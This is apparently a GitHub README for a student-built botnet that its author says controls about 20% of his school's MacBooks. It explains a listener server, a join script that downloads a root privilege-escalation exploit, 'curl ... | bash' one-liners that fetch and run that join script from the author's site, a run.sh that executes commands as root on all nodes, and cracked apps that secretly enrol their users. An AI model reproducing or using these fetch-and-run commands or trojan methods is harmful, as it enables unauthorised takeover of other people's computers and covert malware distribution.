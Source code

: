# net
Some code which I use to run a rudimentary botnet which controls roughly 20% of the MacBooks my school provides to students.

This code only really works with MacBooks using OS X 10.11.6 and before. The joining scripts make some assumptions about configuration since they're only designed to be run on GMHS MacBook Airs.

I do not endorse the use of this code for malicious purposes.

## How it works
### Listening
The botnet is controlled by a simple Python script which opens a socket on port `2043`. Currently the server simply listens for incoming connections and accepts data on new nodes, which are then stored in `nodes.txt`.

### Joining
Two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, run it, bla bla bla. Just run this script and you'll be good.

Here's a simple one-liner to join the botnet (all the scripts are up on my website for simplicity of URLs):

```sh
curl https://erikboesen.com/join.sh | bash
```

or if you like simple URLs:

```sh
curl -L erikboesen.com/join.sh | bash
```

### Controlling
Running `run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online.

### Apps
The `apps` directory contains some cracked versions of various applications which are blocked on our MacBooks. These versions will work on our MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
